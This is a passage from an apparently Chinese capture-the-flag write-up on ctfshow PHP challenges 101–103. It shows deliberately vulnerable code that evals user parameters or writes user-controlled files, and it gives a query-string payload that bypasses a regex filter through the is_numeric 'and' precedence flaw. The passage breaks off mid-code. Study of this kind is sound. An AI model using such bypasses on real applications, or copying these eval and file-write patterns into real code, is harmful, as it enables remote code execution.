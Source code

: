 ```
?v1=1&v2=echo new ReflectionClass&v3=;
```



## 101-ReflectionClass

> hint：修补100题非预期,替换0x2d为-,最后一位需要爆破16次，题目给的flag少一位

```php
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}
```

添加了正则规则，没法rce了

反射类`ReflectionClass`的使用 [PHP: ReflectionClass - Manual](https://www.php.net/manual/zh/class.reflectionclass.php)

```
?v1=1&v2=echo new ReflectionClass&v3=;
```



## 102、103-hex2bin

```php
# 102
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}

# 103
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
```